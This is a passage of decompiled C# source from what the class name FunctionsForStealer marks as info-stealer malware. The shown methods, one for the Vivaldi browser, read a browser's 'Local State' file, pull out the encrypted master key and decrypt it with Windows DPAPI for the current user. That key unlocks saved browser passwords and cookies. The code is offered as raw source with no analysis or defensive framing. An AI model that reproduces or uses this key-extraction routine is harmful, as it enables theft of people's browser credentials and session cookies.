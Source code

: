 ```csharp
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001F RID: 31 RVA: 0x000034B4 File Offset: 0x000016B4
			public static byte[] GetKeyVivaldi()
			{
				string text = Variables.localappdata + "\\Vivaldi\\User Data\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}
```